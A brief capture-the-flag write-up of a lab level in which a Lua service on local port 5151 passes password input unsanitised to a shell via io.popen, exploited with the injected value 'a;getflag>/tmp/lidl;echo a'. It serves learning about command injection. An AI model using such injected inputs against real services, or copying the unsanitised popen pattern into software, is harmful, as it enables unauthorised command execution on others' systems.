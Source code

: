 # Write up

Here we have a `level11.lua` file, which currently throw an error if we try to execute it :
``` 
lua: level11.lua:3: address already in use
stack traceback:
       [C]: in function 'assert'
       level11.lua:3: in main chunk
       [C]: ?
```
The lua script uses the port 5151, so we check if it's in use : `netstat -tulpn | grep LISTEN`
And it is : `tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -`
Sadly the p option to show the processes requiere root access.

We check the process with `ps -aux`
And see that the flag11 account is using the current lua script :
`flag11    1668  0.0  0.0   2892   828 ?        S    03:10   0:00 lua /home/user/level11/level11.lua`

So we will have to request the local 5151 port directly.
With the `nc localhost 5151` command, we will directly be prompted a Password.

The lua script contains this line in the hash function : `prog = io.popen("echo "..pass.." | sha1sum", "r")`
Where pass in raw user input, however, the lua script doesn't print the evaluated string.

We can get the flag by injecting the getflag commend and redirect his result inside the /tmp folder, for exemple :
```
Password: a;getflag>/tmp/lidl;echo a
```
Which gives us the flag.
